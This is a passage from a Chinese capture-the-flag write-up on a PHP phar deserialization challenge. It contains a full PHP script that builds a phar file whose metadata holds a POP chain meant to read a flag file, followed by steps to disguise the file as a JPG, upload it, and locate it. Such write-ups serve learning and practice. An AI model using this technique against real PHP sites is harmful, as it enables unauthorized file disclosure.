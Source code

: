 ```
那么可以设置a为C1e4r的对象,a->str = b 这样在执行上面代码的时候,b会被当作字符串,从而触发__tostring

而C1e4r的__destruct在其被反序列化的时候就会触发,因此Cle4r就是最外层的类
```

分析完上述过程,就可以在本地根据这个pop链来构建`phar`文件了:

```php
<?php

class C1e4r
{
    public $test;
    public $str;
}

class Show
{
    public $source;
    public $str;
}
class Test
{
    public $file;
    public $params;
}
$a = new C1e4r();
$b = new Show();
$c = new Test();

$c->params['source'] = "/var/www/html/f1ag.php";
$b->str['str'] = $c;
$a->str = $b;
$phar = new Phar('1.phar');
$phar -> startBuffering(); 
$phar -> setStub('<?php __HALT_COMPILER();?>'); 
$phar -> addFromString('vfree.txt','vfree'); 
$phar -> setMetadata($a);
$phar -> stopBuffering();

?>
```



将生成的`phar.phar`改名为符合要求的`phar.jpg`后上传:

从上面的代码中可以找到上传路径: 上传后的文件名为原文件名(`phar.jpg`)

```
upload/aa6de1f7ebf0130753f44a728c5ccf61.jpg
```

(这里竟然能直接访问到`upload`这个目录...)
